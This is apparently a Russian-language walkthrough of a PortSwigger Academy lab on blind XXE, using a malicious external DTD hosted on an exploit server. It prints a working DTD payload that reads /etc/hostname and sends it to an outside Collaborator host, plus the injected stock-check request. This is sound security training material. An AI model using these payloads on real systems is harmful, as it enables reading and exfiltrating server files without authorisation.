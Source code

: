 перейдем по кнопке `go to exploit server`
и заполним поля следующим образом
```
/exploit.dtd
...
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://gqa5gpw2lwm4oi6wi9ndsrvn2e85wvkk.oastify.com/?x=%file;'>">
%eval;
%exfil;

```
и нажмем `store`
и получим ссылку, по которой доступен наш пэйлоад
```
https://exploit-0a34009904fa89f782fe389f01f90048.exploit-server.net/exploit.dtd
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/11.%20XXE%20injection/5.%20Exploiting%20blind%20XXE%20to%20exfiltrate%20data%20using%20a%20malicious%20external%20DTD/pics%20for%20walktrough/1.png)
перейдем на случайный товар и проверим его наличие кнопкой `Check stock`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/11.%20XXE%20injection/5.%20Exploiting%20blind%20XXE%20to%20exfiltrate%20data%20using%20a%20malicious%20external%20DTD/pics%20for%20walktrough/2.png)
Перейдем в `Proxy` -> `HTTP history` и найдем данный запрос
```
POST /product/stock 
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```
и отправим его в `Repeater`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/11.%20XXE%20injection/5.%20Exploiting%20blind%20XXE%20to%20exfiltrate%20data%20using%20a%20malicious%20external%20DTD/pics%20for%20walktrough/3.png)
Добавим в запрос `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a34009904fa89f782fe389f01f90048.exploit-server.net/exploit.dtd"> %xxe;]>`
получив в итоге запрос
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a34009904fa89f782fe389f01f90048.exploit-server.net/exploit.dtd"> %xxe;]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/11.%20XXE%20injection/5.%20Exploiting%20blind%20XXE%20to%20exfiltrate%20data%20using%20a%20malicious%20external%20DTD/pics%20for%20walktrough/4.png)
Хоть мы и получаем 400 ошибку, но отстук на домен все же произошел
в коллабораторе найдем хттп квери в которой и будет отстук
```
GET /?x=b38137f4c8af
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/11.%20XXE%20injection/5.%20Exploiting%20blind%20XXE%20to%20exfiltrate%20data%20using%20a%20malicious%20external%20DTD/pics%20for%20walktrough/6.png)
Сдадим `b38137f4c8af` в качестве ответа, и получим уведомление об успешно выполненной лабораторной работе
